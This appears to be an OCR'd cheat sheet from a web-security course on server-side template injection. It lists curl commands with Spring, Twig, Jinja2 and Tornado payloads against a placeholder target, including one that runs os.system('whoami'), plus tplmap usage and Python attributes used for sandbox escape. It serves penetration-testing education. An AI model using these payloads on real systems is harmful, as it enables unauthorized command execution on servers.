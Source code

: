 ## Command	Description
| Command                                                                                        | Description                                                    |
|
| `curl -X POST -d 'email=${7*7}' http://<TARGET IP>:<PORT>/jointheteam`                           | Interacting with the remote target (Spring payload)            |
| `curl -X POST -d 'email={{_self.env.display("TEST"}}' http://<TARGET IP>:<PORT>/jointheteam`     | Interacting with the remote target (Twig payload)              |
| `curl -X POST -d 'email={{config.items()}}' http://<TARGET IP>:<PORT>/jointheteam`               | Interacting with the remote target (Jinja2 basic injection)   |
| `curl -X POST -d 'email={{ [].class.base.subclasses() }}' http://<TARGET IP>:<PORT>/jointheteam` | Interacting with the remote target (Jinja2 dump all classes payload) |
| `curl -X POST -d "email={% import os %}{{os.system('whoami')}}" http://<TARGET IP>:<PORT>/jointheteam` | Interacting with the remote target (Tornado payload)    |
| `./tplmap.py -u 'http://<TARGET IP>:<PORT>/jointheteam' -d email=blah`                           | Automating the exploitation process with tplmap               |

# SSTI Exploitation Example 3

## Command	Description
| Command                                                                                        | Description                                                    |
|-----------------------------------------------------------------------------------------------|----------------------------------------------------------------|
| `curl -gs "http://<TARGET IP>:<PORT>/execute?cmd={{7*'7'}}"`                                    | Interacting with the remote target (Confirming Jinja2 backend) |
| `./tplmap.py -u 'http://<TARGET IP>:<PORT>/execute?cmd'`                                         | Automating the templating engine identification process with tplmap |
| `python3`                                                                                      | Starting the python3 interpreter                              |

# Methods	Description
| Methods                                                | Description                                         |
|-------------------------------------------------------|-----------------------------------------------------|
| `__class__`                                           | Returns the object (class) to which the type belongs |
| `__mro__`                                             | Returns a tuple containing the base class inherited by the object. Methods are parsed in the order of tuples. |
| `__subclasses__`                                      | Each new class retains references to subclasses, and this method returns a list of references that are still available in the class |
| `__builtins__`                                        | Returns the builtin methods included in a function |
| `__globals__`                                         | A reference to a dictionary that contains global variables for a function |
| `__base__`                                            | Returns the base class inherited by the object      |
| `__init__`                                            | Class initialization method                         |
